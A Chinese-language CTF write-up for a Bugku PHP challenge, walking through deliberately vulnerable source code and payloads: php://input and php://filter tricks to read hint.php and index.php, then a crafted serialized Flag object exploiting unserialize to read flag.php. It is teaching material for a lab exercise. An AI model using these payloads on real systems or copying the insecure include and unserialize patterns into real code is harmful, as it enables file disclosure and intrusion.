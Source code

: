 ```yaml
---
title: "记一道集PHP伪协议及PHP反序列化综合运用的CTF"
date: 2018-11-19 02:00:00
tags:
- PHP伪协议
- 反序列化
---
```


首先拿到题目后，毫无疑问，查看一下源码

``` php
<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];    
if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
echo "hello admin!<br>";  
include($file); //hint.php  
}else{  
echo "you are not admin ! ";  
}  
-->
```

解读一下源码的意思：

1. get方式传入三个参数：txt，file，password
2. file_get_contents()函数的作用是将$user的内容读取出来，在此即为将user读取出来的内容数值与类型完全等于 `welcome to the bugkuctf`（三个等于号）
3. 如果满足if条件，则打印输出”hello admin!”。并且将包含的hint.php内容显示出来

------

在此，可以运用两个PHP的伪协议

* php://filter 可以进行任意文件的读取。

[有关php://filter的详细了解](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

* php://input 可以读取没有处理过的post数据

通过对以上代码的分析，我们有了解决思路：

* 对于file_get_contents($user,’r’)===”welcome to the bugkuctf”，我们可以借用php伪协议php://input，要想使user中的字符串读取出来与三等号后的内容一致，就必须使他的传入参数txt，来post welcome to the bugkuctf

* 再来看include($file); //hint.php 我们可以用php://filter来进行hint.php的base编码，从而可以读取出hint.php的base编码，从而可以读取出hint.php的内容。**

构造payload:

```
index.php?txt=php://input&file=php://filter/read=convert.base64-encode/resource=hint.php
```

利用bp改包

![1.png](https://i.loli.net/2021/08/11/8Fpr2NfGheadXyj.png)

得到回显

![2.png](https://i.loli.net/2021/08/11/oVi7pbluDk8LMqR.png)

发现一组base64,再进行base64解码，发现又有一组代码

```php
#hint.php

<?php  

class Flag{//flag.php  
public $file;  
public function __tostring(){  
    if(isset($this->file)){  
        echo file_get_contents($this->file); 
        echo "<br>";
    return ("good");
    }  
}  
}  
?>
```

再来分析这段代码

看到flag.php，猜测flag或许就从这段代码中找出。发现了比较关键的一个函数**tostring(),此函数的作用是将Flag类作为字符串执行时会自动执行此函数，并且将变量$file作为文件名输出文件内容。但是，这个时候发现并没有代码显示可以调用这个类，如果没有调用这个类，也就无法执行**tostring()函数。而且，还有一个password参数没有用上，所以考虑，或许还会存在另一段代码。那就接着上一步，把hint.php换成index.php会有什么发现呢？

果不其然，确实又有了重大发现：

![3.png](https://i.loli.net/2021/08/11/k41uCXsiTl3ja2o.png)

再次得到回显

![4.png](https://i.loli.net/2021/08/11/9fxMITFDy8WkvRl.png)

解码后

```php
index.php

<?php  
$txt = $_GET["txt"];  
$file = $_GET["file"];  
$password = $_GET["password"];  

if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
echo "hello friend!<br>";  
if(preg_match("/flag/",$file)){ 
    echo "ä¸è½ç°å¨å°±ç»ä½ flagå¦";
    exit();  
}else{  
    include($file);   
    $password = unserialize($password);  
    echo $password;  
}  
}else{  
echo "you are not the number of bugku ! ";  
}  

?>  

<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  

if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
echo "hello admin!<br>";  
include($file); //hint.php  
}else{  
echo "you are not admin ! ";  
}  
 -->
```

结果发现了正则匹配函数preg_match(“/flag/“,$file)，对flag进行了正则匹配。

再来接着看，else代码块中又一次包含了$file,并且对$password进行反序列化。通过对上述hint.php的解读，我们就可以构造password，password为Flag类型，字符串变量file=flag.php。构造的序列化对象payload，password=O:4:”Flag”:1:{s:4:”file”;s:8:”flag.php”;}

![5.png](https://i.loli.net/2021/08/11/HCewWuc58MpJohf.png)

在这里简单说一下php的反序列化

将原来的某个对象进行序列化之后，从序列化后的结果中就可以知道这个对象的具体类型和值

在这里简单说一下序列化后的几个字母的意思，以password=O:4:”Flag”:1:{s:4:”file”;s:8:”flag.php”;}为例

* O（大写）：对象class
* 4：4个字符
* “Flag”：对象名
* 1：数量，一个
* s：string
* {}里的为参数

反序列化可以理解为序列化的的逆运算
